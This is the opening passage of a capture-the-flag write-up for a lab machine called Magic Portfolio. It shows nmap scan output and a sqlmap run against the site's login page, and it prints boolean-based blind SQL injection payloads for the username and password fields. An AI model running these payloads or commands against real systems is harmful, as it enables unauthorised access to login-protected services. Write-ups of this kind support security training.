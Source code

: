 

## Overview

**TL;DR**: SQLi, webshell upload with bypass, pe via SUID tool using unsecured
PATH.

Install tools used in this WU on BlackArch Linux:

```
pacman -S nmap sqlmap haiti weevely metasploit pwncat
```

## Network enumeration

With a [nmap][nmap] scan be can see only 2 open ports: 80 & 22.

```
# Nmap 7.80 scan initiated Fri Jun 12 13:15:34 2020 as: nmap -sSVC -p- -oA nmap_full 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 12 13:16:00 2020 -- 1 IP address (1 host up) scanned in 25.72 seconds
```

## HTTP Enumeration

Quickly we found a few pages:

- http://10.10.10.185/index.php
- http://10.10.10.185/login.php
- http://10.10.10.185/upload.php (authenticated)

On the login page we can see we have a different behavior when we put of quote
in the username or password and when not. So let's try a SQLi.

## SQL Injection

I used [sqlmap][sqlmap] to quickly identify the injection technique and automate the process.

```
$ sqlmap -u http://10.10.10.185/login.php --method POST --data 'username=admin&password=password' --level 3 --risk 3
...
sqlmap identified the following injection point(s) with a total of 628 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=admin&password=-2142' OR 8380=8380-- HhVJ

Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-5412' OR 2974=2974-- buTK&password=password
```